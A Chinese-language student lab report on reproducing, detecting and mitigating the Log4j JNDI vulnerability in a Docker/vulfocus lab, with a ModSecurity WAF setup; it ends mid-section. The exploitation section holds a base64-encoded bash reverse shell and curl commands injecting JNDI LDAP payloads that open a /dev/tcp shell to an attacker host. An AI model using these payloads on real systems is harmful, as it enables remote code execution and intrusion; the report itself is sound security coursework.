## 网络空间安全实验报告

---

## PART1 我的实践达成指标
### log4j 漏洞
- [x] vulfocus 环境搭建
- [x] log4j 漏洞复现环境搭建
- [x] log4j 漏洞利用复现
- [x] log4j 漏洞靶机上的缺陷代码已完成逆向分析，定位到了漏洞代码片段
- [x] log4j 漏洞缓解完成，并验证了缓解效果，但依然有绕过方法可以完成漏洞利用
- [x] log4j 漏洞修复完成，并验证了修复效果

### DMZ漏洞
- [x] DMZ 复现环境搭建
- [x] DMZ 入口靶标已 get flag
- [ ] DMZ 内网第一层靶标已 get flag
- [ ] DMZ 内网第二层靶标已 get flag
- [ ] DMZ 入口靶标的漏洞利用检测
- [ ] DMZ 内网第一层靶标的漏洞利用检测
- [ ] DMZ 内网第二层靶标的漏洞利用检测
- [ ] DMZ 入口靶标的漏洞修复，并验证了修复效果
- [ ] DMZ 入口靶标的漏洞缓解完成，并验证了缓解效果，但依然有绕过方法可以完成漏洞利用

---

## PART2 实验环境
- 操作系统：Kali Linux
- 工具：Apache2、ModSecurity、OWASP CRS、Docker、Wireshark
- 漏洞环境：Log4j 漏洞测试环境

---

## PART3 实验内容

### 一. 环境搭建
#### 1. 克隆仓库
```bash
git clone https://github.com/c4pr1c3/ctf-games.git
```


#### 2. 添加 Docker APT 源并安装 Docker

```bash
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | sudo tee /etc/apt/sources.list.d/docker.list
```

- 将 Docker 的 APT 源添加到系统的软件源列表中。
- deb 行指定了源的架构（arch=amd64）、签名文件的位置（signed-by=/etc/apt/keyrings/docker.gpg）以及源的 URL 和发行版名称（bookworm stable）。

```bash
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg
sudo apt update && sudo apt install docker-ce docker-ce-cli containerd.io jq
```

- 使用 curl 从 Docker 官方下载 GPG 公钥，并通过 gpg --dearmor 将其转换为适合 APT 使用的格式，最后保存为 /etc/apt/keyrings/docker.gpg。


#### 3. Docker 配置
1. **添加用户到 Docker 组 , 切换到 root 用户并进行操作:**
   ```bash
   sudo usermod -a -G docker kali
   sudo su -
   ```
   

2. **编辑 /etc/docker/daemon.json 文件，添加镜像加速器地址：**
   

#### 4. VulFocus 环境搭建与运行

1. **拉取 vulfocus/vulfocus:latest 镜像，并启动容器：**
   

2. **首先尝试使用 docker-compose 来管理容器**


3. **安装完成后，系统自动升级了一些依赖包，并移除了一些不再需要的包。**

4. **接下来，我们进入 /workspace/ctf-games/fofapro/vulfocus 目录，启动了 VulFocus 环境：**
   ```bash
   bash start.sh
   ```
   
   - 脚本会检查本地 IP 地址并设置环境变量，然后创建并启动 vulfocus_vulfocus_1 容器。通过 docker ps 查看容器状态，确认容器已成功启动并运行正常。

#### 5. 进入容器并操作文件
```bash
docker exec -it kind_engelbart bash
```


在容器内部，复制 demo.jar 到宿主机上。由于容器内没有安装 docker 命令，因此直接在容器内执行 docker cp 是不可行的。最终，我通过宿主机上的命令成功将文件复制出来：
```bash
docker cp kind_engelbart:/demo/demo.jar /home/kali/workspace/ctf-games/fofapro/vulfocus/
```


#### 6. 定位漏洞代码


---

### 二. 漏洞利用

#### 1. 自动化exploit脚本编写


```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzEvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}
```

#### 2. 评估log4j漏洞效果

##### 下载利用工具
```bash
wget https://github.com/Mr-xn/JNDIExploit/release/download/v1.2/JNDIExploit.v1.2.zip
```


#### 3. 构造攻击请求

##### 原始 PPT 中的命令：
```bash
curl http://192.168.20.6:35536/hello -d 'payload=${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```

##### 修改后的命令（用于避免 Shell 解析问题）：
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 | tr -d '\n' | sed 's/+/%2B/g' | sed 's/=/%3D/g')}" http://192.168.20.6:35536/hello
```


##### Payload 说明：
- 使用 `${jndi:ldap://...}` 构造恶意 JNDI 字符串。
- 将反向 shell 命令 `bash -i >& /dev/tcp/192.168.168.3/7777 0>&1` 转换为 Base64 编码，以适配 URL 参数格式。
- 目标服务器执行该 payload 后，会尝试连接攻击者的 IP 地址 `192.168.168.3` 和端口 `7777`。

##### 实验结果：



- 请求返回 “ok”，表示服务端已接收 payload。
- 成功建立反向 shell 连接，验证了 Log4j 漏洞可被成功利用。


---

### 三. 漏洞利用检测

#### [方法一] 使用域名服务器
1. **注册临时域名**
   - 使用 `http://log.fendou.us:8080/dns/` 网站注册了一个临时域名 `chloris.check4safe.top`。
   - 注册结果在网站上显示，确认域名已成功创建。
   

2. **使用域名服务器抓包并进行流量分析**
  - 使用 `curl` 命令模拟攻击请求，测试 Log4j 漏洞：
    ```bash
    curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
    ```
  - 通过 `-vv` 参数查看详细的请求和响应信息，确保请求被正确发送并返回预期的结果。
- **抓包结果**：
  - 日志显示请求包含恶意 payload `${jndi:ldap://chloris.check4safe.top}` 请求被成功发送到目标服务器，并且返回了 HTTP/1.1 200 OK 的响应。
  

3. **检测结果**
  - 在 `log.fendou.us` 网站的 DNSLog 页面中，可以看到注册的子域名 `chloris.check4safe.top` 的查询记录。

  - 记录显示该域名被解析为 IP 地址 `219.141.176.11`，位置在北京，时间为 `2025-03-05 15:33:23`，验证了 Log4j 漏洞的存在。
  

#### [方法二] 使用抓包工具
1. **漏洞利用**
我们先在受害者主机上抓包，然后使用 Wireshark 分析抓到的数据包。
用攻击者主机构造攻击指令
```bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
```

抓包已经保存到 ``/home/kali/workspace/ctf-games/fofapro/vulfocus/capture.pcap``

可以看到 ``HTTP`` 请求包中包含恶意的 ``payload`` ，用于触发 ``Log4j 漏洞``


---

#### [方法三] 使用interact.sh自动化检测

- 由于 ``log4j-scan`` 默认使用 interact.sh 作为 DNS 回调服务来检测 Log4j 漏洞。但是由于目前服务不可用，我无法连接到 interact.sh，我选择 ceye.io 公共 DNS 回调服务
- 从 `log4j-scan.py` 代码来看，原本的工具默认支持两种 DNS 回调服务：`interact.sh` 和 `dnslog.cn`。我们想要实现支持 `ceye.io`，需要对代码进行一些修改。以下是具体的**修改步骤**：

**1. 添加 `Ceye` 类**
在代码中添加一个新的类 `Ceye`，用于处理 `ceye.io` 的 DNS 回调逻辑。找到 `Dnslog` 和 `Interactsh` 类的定义部分，在其后面添加以下代码：

```python
class Ceye:
    def __init__(self, token, domain):
        self.token = token
        self.domain = domain
        self.session = requests.Session()
        self.session.proxies = proxies

    def pull_logs(self):
        url = f"http://api.ceye.io/v1/records?token={self.token}&type=dns"
        response = self.session.get(url, timeout=30)
        if response.status_code == 200:
            return response.json().get("data", [])
        return []
```

**2. 修改 `main()` 函数**
在 `main()` 函数中，找到 DNS 回调服务初始化的部分（大约在第 411 行），修改为支持 `ceye.io`。将以下代码：

```python
if args.dns_callback_provider == "interact.sh":
    dns_callback = Interactsh()
elif args.dns_callback_provider == "dnslog.cn":
    dns_callback = Dnslog()
else:
    raise ValueError("Invalid DNS Callback provider")
```

修改为：

```python
if args.dns_callback_provider == "interact.sh":
    dns_callback = Interactsh()
elif args.dns_callback_provider == "dnslog.cn":
    dns_callback = Dnslog()
elif args.dns_callback_provider == "ceye.io":
    # 需要提供 ceye.io 的 token 和域名
    ceye_token = "your_ceye_token"  # 替换为 ceye.io token
    ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
    dns_callback = Ceye(ceye_token, ceye_domain)
else:
    raise ValueError("Invalid DNS Callback provider")
```

**3. 修改 `parser.add_argument` 部分**
在 `parser.add_argument` 部分，找到 `--dns-callback-provider` 的定义（大约在第 150 行），将其修改为：

```python
parser.add_argument("--dns-callback-provider",
                    dest="dns_callback_provider",
                    help="DNS Callback provider (Options: dnslog.cn, interact.sh, ceye.io) - [Default: interact.sh].",
                    default="interact.sh",
                    action='store')
```

**4. 修改 `scan_url()` 函数**
在 `scan_url()` 函数中，确保生成的 payload 使用 `ceye.io` 的域名。找到以下代码：

```python
payload = '${jndi:ldap://%s.%s/%s}' % (parsed_url["host"], callback_host, random_string)
```

确保 `callback_host` 是 `ceye.io` 的域名。

**修改后的代码 :**
```python
class Ceye:
    def __init__(self, token, domain):
        self.token = token
        self.domain = domain
        self.session = requests.Session()
        self.session.proxies = proxies

    def pull_logs(self):
        url = f"http://api.ceye.io/v1/records?token={self.token}&type=dns"
        response = self.session.get(url, timeout=30)
        if response.status_code == 200:
            return response.json().get("data", [])
        return []

def main():
    urls = []
    if args.url:
        urls.append(args.url)
    if args.usedlist:
        with open(args.usedlist, "r") as f:
            for i in f.readlines():
                i = i.strip()
                if i == "" or i.startswith("#"):
                    continue
                urls.append(i)

    dns_callback_host = ""
    if args.custom_dns_callback_host:
        cprint(f"[•] Using custom DNS Callback host [{args.custom_dns_callback_host}]. No verification will be done after sending fuzz requests.")
        dns_callback_host = args.custom_dns_callback_host
    else:
        cprint(f"[•] Initiating DNS callback server ({args.dns_callback_provider}).")
        if args.dns_callback_provider == "interact.sh":
            dns_callback = Interactsh()
        elif args.dns_callback_provider == "dnslog.cn":
            dns_callback = Dnslog()
        elif args.dns_callback_provider == "ceye.io":
            ceye_token = "your_ceye_token"  # 替换为 ceye.io token
            ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
            dns_callback = Ceye(ceye_token, ceye_domain)
        else:
            raise ValueError("Invalid DNS Callback provider")
        dns_callback_host = dns_callback.domain

    cprint("[%] Checking for Log4j RCE CVE-2021-44228.", "magenta")
    for url in urls:
        cprint(f"[•] URL: {url}", "magenta")
        scan_url(url, dns_callback_host)

    if args.custom_dns_callback_host:
        cprint("[•] Payloads sent to all URLs. Custom DNS Callback host is provided, please check your logs to verify the existence of the vulnerability. Exiting.", "cyan")
        return

    cprint("[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.", "cyan")
    cprint("[•] Waiting...", "cyan")
    time.sleep(int(args.wait_time))
    records = dns_callback.pull_logs()
    if len(records) == 0:
        cprint("[•] Targets do not seem to be vulnerable.", "green")
    else:
        cprint("[!!!] Targets Affected", "yellow")
        for i in records:
            cprint(json.dumps(i), "yellow")
```

**5. 使用方法**
1. **注册 `ceye.io` 账户**：
   - 访问 [ceye.io](http://ceye.io/)，注册并获取 `token` 和 `domain`。

2. **运行工具**：
   - 使用以下命令运行工具，并指定 `ceye.io` 作为 DNS 回调服务：
     ```bash
     python3 log4j-scan.py -u http://192.168.20.6:13708/hello --dns-callback-provider ceye.io
     ```
     

3. **检查结果**：
   - 登录 `ceye.io`，也可以查看到 DNS 请求记录。
   


#### [方法四] 使用 Suricata 自动化检测

启动 suricata 检测容器
此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
```bash
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```


更新 suricata 规则，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```


重启 suricata 容器以使规则生效
```bash
docker restart suricata
```

监视 suricata 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```


结果:
```bash
03/10/2025-11:17:54.889707  [**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55707 -> 192.168.20.6:24037
03/10/2025-11:17:54.889707  [**] [1:2034781:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55707 -> 192.168.20.6:24037
03/10/2025-11:18:12.474924  [**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55763 -> 192.168.20.6:24037
03/10/2025-11:18:12.474924  [**] [1:2034781:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55763 -> 192.168.20.6:24037
03/10/2025-11:18:17.979744  [**] [1:2221034:1] SURICATA HTTP Request unrecognized authorization method [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.20.1:54505 -> 192.168.20.6:80
```
这条日志表明 Suricata 检测到了一个 Log4j RCE（远程代码执行）尝试，使用了特定的 TCP 绕过技术（M1）

---

### 四. 漏洞防御的思考

探究一下 Log4j JNDI 攻击的 **利用流程** 以及 **可行的防御措施** ：  

#### **📌 Log4j JNDI 攻击原理**
Log4j 2.x 存在 **JNDI 远程代码执行漏洞**（CVE-2021-44228），攻击流程如下：
1. **攻击者构造恶意日志输入**  
   - 通过 **HTTP 请求头（User-Agent、Referer 等）、URL 参数、JSON 输入** 等传递带有 JNDI 语句的日志信息，例如：
     ```plaintext
     ${jndi:ldap://malicious-server.com/evil}
     ```
2. **Log4j 解析 JNDI 语句**  
   - Log4j 发现 `${jndi:}` 变量后，会尝试解析其中的 LDAP/RMI 地址。
3. **远程 LDAP 服务器提供恶意类**  
   - 服务器连接 **攻击者的 LDAP 服务器**，获取恶意 Java 类文件路径。
4. **服务器加载恶意 Java 类并执行**  
   - 服务器 **反序列化并执行恶意代码**，导致远程代码执行（RCE）。

---

#### **🛡️ Log4j JNDI 攻击的五种防御措施**

##### **1️⃣ 使用 Web 应用防火墙（WAF）拦截**
📌 **原理**：  
- WAF 通过 **检测 HTTP 请求**，阻止带有 `jndi:ldap://` 的恶意输入。  

⚙ **实现方式**：
- 配置 WAF 规则，拦截匹配 JNDI 语法的请求：
  ```plaintext
  SecRule REQUEST_HEADERS "@rx (\${jndi:(ldap|rmi|dns):/})" "id:1001,phase:1,deny,status:403"
  ```
- 启用 **ModSecurity** 或云端 WAF（如 Cloudflare、AWS WAF）。

---

##### **2️⃣ 禁用 JNDI 查找**
📌 **原理**：  
- 直接 **禁用 Log4j 的 JNDI 查找功能**，防止它解析 `${jndi:}` 变量。  

⚙ **实现方式**：
- **方法 1（修改配置文件）**：  
  在 `log4j2.component.properties` 文件中添加：
  ```properties
  log4j2.formatMsgNoLookups=true
  ```
- **方法 2（启动参数）**：  
  ```bash
  -Dlog4j2.formatMsgNoLookups=true
  ```
- **方法 3（环境变量）**：
  ```bash
  export LOG4J_FORMAT_MSG_NO_LOOKUPS=true
  ```

---

##### **3️⃣ 立即修复 Log4j**
📌 **原理**：  
- 通过 **升级 Log4j 到安全版本**，彻底移除漏洞。

⚙ **实现方式**：
- **升级到安全版本**（`2.17.0+`）：  
  ```bash
  mvn dependency:tree | grep log4j
  mvn versions:use-latest-versions
  mvn clean install
  ```
- **移除 `JndiLookup.class`**（临时方案）：
  ```bash
  zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
  ```

---

##### **4️⃣ 禁用远程代码库**
📌 **原理**：  
- 服务器默认 **不应允许远程类加载**，防止攻击者注入恶意代码。

⚙ **实现方式**：
- **方法 1（Java 启动参数）**：
  ```bash
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=false
  ```
- **方法 2（修改 Java 安全策略）**：
  在 `java.security` 文件中添加：
  ```properties
  jdk.jndi.object.factoriesFilter=!(com.sun.jndi.ldap.object.trustURLCodebase)
  ```

---

##### **5️⃣ 禁用 Java 反序列化**
📌 **原理**：  
- 反序列化攻击是远程代码执行的主要方式，禁用不必要的反序列化可减少风险。

⚙ **实现方式**：
- **方法 1（JVM 限制反序列化）**：
  ```bash
  -Djava.security.manager
  ```
- **方法 2（安全库）**：
  - 使用 **Apache Commons Collections** 或 **GadgetInspector** 进行安全检查。
- **方法 3（使用安全的反序列化方式）**：
  - 使用 `ObjectInputStream` 时，白名单允许的类：
    ```java
    ObjectInputStream in = new ObjectInputStream(inputStream) {
        @Override
        protected Class<?> resolveClass(ObjectStreamClass desc)
            throws IOException, ClassNotFoundException {
            if (!allowedClasses.contains(desc.getName())) {
                throw new InvalidClassException("Unauthorized deserialization attempt");
            }
            return super.resolveClass(desc);
        }
    };
    ```

---

#### **📌 结论**
- **Log4j JNDI 攻击利用远程代码加载**，通过 **LDAP/RMI 远程注入恶意 Java 类**，导致 RCE。
- **五种关键防御措施**：
  1. **WAF 拦截** 恶意 JNDI 请求。
  2. **禁用 JNDI 查找**，避免解析恶意字符串。
  3. **升级 Log4j**，彻底修复漏洞。
  4. **禁用远程代码库**，防止恶意类加载。
  5. **禁用 Java 反序列化**，减少 RCE 风险。

---

### 五. 漏洞缓解

#### 第一种方法: 打造Web应用防火墙（WAF）来缓解Log4j漏洞

##### [1] 实验目标
- 本次实验的主要目标是搭建并配置 ModSecurity Web 应用防火墙（WAF），以防御 Log4j 漏洞攻击。通过实验，掌握以下内容：
   - ModSecurity 的安装与配置。
   - OWASP 核心规则集（CRS）的使用。
   - 针对 Log4j 漏洞的自定义规则配置。
   - 通过反向代理测试 WAF 的拦截效果。
   - 解决实验过程中遇到的常见问题。

---

##### [2] 实验具体流程

1. **安装ModSecurity**
   ModSecurity 是一个开源的 Web 应用防火墙（WAF）模块，支持 Apache、Nginx 等 Web 服务器。它通过检测和拦截恶意请求来保护 Web 应用程序。

2. **安装Apache和ModSecurity**
   ```bash
   sudo apt update
   sudo apt install apache2 libapache2-mod-security2
   ```
   - apache2 是 Apache HTTP 服务器。
   - libapache2-mod-security2 是 ModSecurity 的 Apache 模块。
   

3. **配置ModSecurity**
(1) 备份默认配置文件：
   ```bash
   sudo cp /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
   ```
   
   - 默认情况下，ModSecurity 提供了一个推荐的配置文件 modsecurity.conf-recommended。
   - 复制该文件为 modsecurity.conf，以便进行自定义配置。

(2) 编辑配置文件：
   ```bash
   sudo vim /etc/modsecurity/modsecurity.conf
   ```
   将`SecRuleEngine`设置为`On`：
   ```bash
   SecRuleEngine On
   ```
   SecRuleEngine 控制 ModSecurity 的规则引擎状态,有以下三种状态:
   - Off：完全禁用规则引擎。
   - DetectionOnly：启用规则引擎，但仅用于检测，不会拦截恶意请求。
   - On：启用规则引擎，检测并拦截恶意请求。
   
   

(3) 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```
   Apache 在启动时会加载 ModSecurity 模块及其配置文件。
   

---

##### [3] 使用OWASP核心规则集（CRS）

- OWASP CRS提供了一套规则，用于防御常见Web攻击。

(1) 下载OWASP CRS
```bash
sudo apt install modsecurity-crs
```
OWASP CRS 是一组预定义的规则，覆盖了多种 Web 攻击类型。


(2) 配置OWASP CRS
1. 将规则集链接到ModSecurity：
   ```bash
   sudo ln -s /usr/share/modsecurity-crs/ /etc/apache2/modsecurity-crs
   ```
    
   - 创建符号链接是为了让 ModSecurity 能够方便地访问和加载 OWASP CRS 提供的规则文件。
2. 在ModSecurity配置中加载规则集：
   ```bash
   sudo vim /etc/apache2/mods-enabled/security2.conf
   ```
   添加以下内容：
   ```bash
   IncludeOptional /etc/apache2/modsecurity-crs/*.conf
   IncludeOptional /etc/apache2/modsecurity-crs/rules/*.conf
   ```
   这样配置后,IncludeOptional 指令告诉 Apache 加载指定路径下的所有 .conf 文件。加载 /etc/apache2/modsecurity-crs/ 目录下的所有主配置文件。加载该目录下 rules/ 子目录中的所有规则文件
   

3. 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```
   ModSecurity 会在每次请求时应用这些规则，检测并拦截恶意流量。

---

##### [4] 自定义Log4j漏洞规则配置

- 为了防御 Log4j 漏洞攻击，需要添加针对 jndi: 的自定义规则。

(1) 添加自定义规则
1. 创建自定义规则文件：
   ```bash
   sudo vim /etc/apache2/modsecurity-crs/rules/REQUEST-900-LOG4J.conf
   ```

2. 添加以下规则：
   ```bash
   SecRule ARGS|ARGS_NAMES|REQUEST_HEADERS|!REQUEST_HEADERS:Referer "@contains jndi:" \
       "id:1001,phase:2,log,deny,status:403,msg:'Potential Log4j Exploit Attempt'"
   ```
   | 参数名称       | 说明                     |
   |:---------------|:-------------------------|
   | SecRule        | ModSecurity 的核心指令，用于定义规则 |
   | ARGS/ARGS_NAMES/REQUEST_HEADERS | 检测请求参数、请求头 |
   | @contains jndi: | 匹配包含 jndi: 的内容 |
   | id:1001        | 规则的唯一标识符         |
   | phase:2        | 在请求处理的第二阶段（请求体解析后）执行规则 |
   | log            | 记录日志                 |
   | deny           | 拒绝请求                 |
   | status:403     | 返回 HTTP 403 Forbidden 响应 |
   | msg            | 日志消息                 |

   

3. 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```

---

##### [5] 监控和日志分析

- 启用ModSecurity的日志功能，记录所有拦截的请求，便于后续分析。

(1) 配置日志

1. 编辑ModSecurity配置文件：
   ```bash
   sudo vim /etc/modsecurity/modsecurity.conf
   ```

2. 确保日志路径正确：
   ```bash
   SecAuditLog /var/log/apache2/modsec_audit.log
   ```
   - SecAuditLog 指令用于指定 ModSecurity 审计日志的存储路径。
   - /var/log/apache2/modsec_audit.log 是默认的日志文件路径，记录所有拦截的请求及其详细信息。
3. 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```

---

##### [6] 配置 Apache 监听 `81` 端口

编辑 Apache 的配置文件：
```bash
sudo vim /etc/apache2/ports.conf
```
将 `Listen 80` 改为 `Listen 81`。

编辑虚拟主机配置文件：
```bash
sudo vim /etc/apache2/sites-available/000-default.conf
```
将 `<VirtualHost *:80>` 改为 `<VirtualHost *:81>`。

重启 Apache：
```bash
sudo systemctl restart apache2
```

---

##### [7] **配置反向代理**
启用 Apache 的反向代理模块：
```bash
sudo a2enmod proxy
sudo a2enmod proxy_http
```
- a2enmod 命令用于启用 Apache 模块。
proxy 和 proxy_http 模块用于实现反向代理功能。
- 编辑虚拟主机配置文件：
```bash
sudo vim /etc/apache2/sites-available/000-default.conf
```
在 `<VirtualHost *:81>` 块中添加以下内容：
```bash
<VirtualHost *:81>
    ProxyPreserveHost On
    ProxyPass / http://127.0.0.1:23509/
    ProxyPassReverse / http://127.0.0.1:23509/
</VirtualHost>
```


重启 Apache：
```bash
sudo systemctl restart apache2
```
- Apache 将开始监听 81 端口，并将所有请求通过反向代理转发到 23509 端口。


- **目前的拓扑图:**
```bash
+-------------------+       +-------------------+       +-------------------+
|      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
|    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
+-------------------+       +-------------------+       +-------------------+
        |                           |                           |
        | 1. 发送请求到 81        | 2. iptables 重定向到 23509    | 3. 处理请求
        | ------------------------> | ------------------------> |
        |                           |                           |
        |                           | 4. 拦截恶意请求             |
        |                           | (返回 403 Forbidden)       |
        | <------------------------ |                           |
        |                           |                           |
        |                           | 5. 记录日志                |
        |                           | (modsec_audit.log)         |
```

---

##### [8] 测试 WAF 是否拦截恶意请求
运行以下命令测试 WAF 是否拦截包含 `jndi:` 的请求：
```bash
curl -X POST http://192.168.20.6:81/ -d "param1=jndi:ldap://chloris.check4safe.top/exploit"
```
- 通过 curl 命令向 81 端口发送一个包含 jndi: 的恶意请求。
- 如果 WAF 配置正确，应该返回 403 Forbidden，表示请求被拦截。
- 如果请求被拦截，ModSecurity 会在日志文件中记录详细的请求信息。


---

##### [9] 现在的情况以及存在的问题
- 直接 `curl` `23509` 端口可以测试 Log4j 漏洞，但无法测试 WAF 的效果。
- 通过反向代理的方式，可以让请求经过 Apache 和 ModSecurity，从而测试 WAF 是否能够拦截恶意请求。
- 使用 `curl` 向 `81` 端口发送请求，验证 WAF 是否生效。
- 通过以上步骤，我在Kali Linux上搭建一个基础的WAF，缓解Log4j等漏洞。定期更新规则集和监控日志是确保WAF持续有效的关键。

**为什么需要经过 Apache？**
1. **WAF 的作用**：WAF（Web 应用防火墙）的目的是检测并拦截恶意请求。如果请求直接到达 Log4j 测试环境，WAF 就无法发挥作用。
2. **测试 WAF 的效果**：需要验证 WAF 是否能够正确拦截包含 `jndi:` 的恶意请求。如果请求不经过 WAF，就无法测试 WAF 的效果。
WAF（ModSecurity）全部设在了 81 端口：Apache 监听 81 端口，并通过 ModSecurity 检测所有到达该端口的请求。

**但是如果直接 `curl` `23509` 端口 :**
- 请求会直接到达 Log4j 测试环境。
- WAF 不会检测请求，因此即使请求包含 `jndi:`，也不会被拦截。
- 无法验证 WAF 是否生效。

---

##### [10] 改进

1. **查看当前 iptables 规则**
运行以下命令，查看当前的 iptables 规则：
```bash
sudo iptables -t nat -L -n -v
```

2. **确保规则正确**
检查是否有以下规则：
   ```bash
   Chain PREROUTING (policy ACCEPT 0 packets, 0 bytes)
   pkts bytes target     prot opt in     out     source               destination         
      0     0 REDIRECT   tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:8080 redir ports 81
   ```
   接着重新添加规则：
   ```bash
   sudo iptables -t nat -A PREROUTING -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

3. **保存 iptables 规则**
   确保规则在重启后仍然生效：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```

4. **检查 Apache 反向代理配置**
   打开 Apache 的虚拟主机配置文件：
   ```bash
   sudo vim /etc/apache2/sites-available/000-default.conf
   ```
   确保配置如下：
   ```bash
   <VirtualHost *:81>
       ProxyPreserveHost On
       ProxyPass / http://127.0.0.1:8080/
       ProxyPassReverse / http://127.0.0.1:8080/
   </VirtualHost>
   ```
   保存并退出编辑器。

5. **检查 Target Server 监听地址**

   修改 Target Server 也就是log4j服务的dockerfile配置文件，使其仅监听 `127.0.0.1:8080`。
   - 例如，如果 Target Server 是一个 Java 应用，可以在启动命令中指定绑定地址：
     ```bash
     java -jar demo.jar --server.address=127.0.0.1 --server.port=8080
     ```
     
   我在应用程序中设置了 ``server.address=127.0.0.1``，在 Docker 容器中，``127.0.0.1`` 指的是容器内部的回环接口，而不是宿主机的回环接口。因此，即使容器的 8080 端口映射到了宿主机的 8080 端口，外部请求也无法通过宿主机的 IP 地址和端口访问到容器中的应用程序，因为应用程序只监听容器内部的 ``127.0.0.1``, 如果希望外部能够通过宿主机的 IP 地址和端口访问容器中的应用程序，需要将应用程序的监听地址设置为 ``0.0.0.0``
   - 重启docker 容器
   

   确保 Target Server 不再监听外部地址（如 `0.0.0.0:8080`）。

6. **测试配置**
   运行以下命令，测试 iptables 重定向是否生效：
   ```bash
   curl http://<Target-IP>:8080/
   ```
   - 如果配置正确，流量会被重定向到 `81` 端口，并经过 WAF。

   检查 Apache 日志，确认请求是否被正确处理：
   ```bash
   tail -f /var/log/apache2/access.log
   ```

---

##### [11] 总结一下当前进度

1. **核心问题**
- iptables 规则未生效，导致流量绕过 WAF。
- Apache 反向代理配置可能存在问题，导致请求未正确转发。

2. **解决步骤**
   (1) **检查并修复 iptables 规则**：
      - 确保所有到达 `8080` 端口的流量被重定向到 `81` 端口。
   
   (2) **检查 Apache 反向代理配置**：
   - 确保 Apache 监听 `81` 端口，并将请求转发到 `127.0.0.1:8080`。
   
   (3) **检查 Target Server 监听地址**：
   - 确保 Target Server 仅监听 `127.0.0.1:8080`，避免外部直接访问。

3. **最终效果**
- 客户端访问 `http://<Target-IP>:8080` 时，流量会被重定向到 WAF 的 `81` 端口。
- WAF 检测请求后，合法请求会被转发到 Target Server，恶意请求会被拦截。

从 `iptables` 配置来看，成功添加了以下规则：

```bash
-A PREROUTING -p tcp -m tcp --dport 8080 -j REDIRECT --to-ports 81
```

将所有到达 `8080` 端口的 TCP 流量重定向到 `81` 端口。理论上，这些规则应该生效，但我发现 `curl` 访问 `8080` 端口时仍然可以成功访问，而 `81` 端口被 WAF 拦截。这表明 **iptables 规则可能没有完全生效**，或者 **流量绕过了 iptables 规则**。

---

##### [12] 出现新问题

正如上面所写 , 这时iptables规则尚未生效

1. **分析可能原因 : 流量未经过 PREROUTING 链**：
   - 如果流量是从本机发出的（例如 `curl http://127.0.0.1:8080`），它不会经过 `PREROUTING` 链，而是直接进入 `OUTPUT` 链。
   - `PREROUTING` 链只对从外部进入的流量生效。

2. **解决方案**
   (1) **确保 iptables 规则生效**
      检查流量是否经过 PREROUTING 链
      - 如果从本机测试（例如 `curl http://127.0.0.1:8080`），流量不会经过 `PREROUTING` 链。
      - 改为从外部机器测试（例如 `curl http://<Target-IP>:8080`），确保流量经过 `PREROUTING` 链。

   (2) **添加 OUTPUT 链规则**
   如果必须从本机测试，可以在 `OUTPUT` 链中添加规则，将本机发出的流量重定向到 `81` 端口：
   ```bash
   sudo iptables -t nat -A OUTPUT -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

3. **保存规则**
   确保规则在重启后仍然生效：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```
   

4. **测试最终效果**
   - 从外部机器测试 , 发送请求到 `8080` 端口：
      ```bash
      curl http://<Target-IP>:8080/
      ```
      检查是否被重定向到 `81` 端口，并经过 WAF。

   - 从本机测试 , 发送请求到 `8080` 端口：
      ```bash
      curl http://127.0.0.1:8080/
      ```
      检查是否被重定向到 `81` 端口，并经过 WAF。

---

##### [13] 测试 WAF 拦截

   发送包含恶意 payload 的请求：
   ```bash
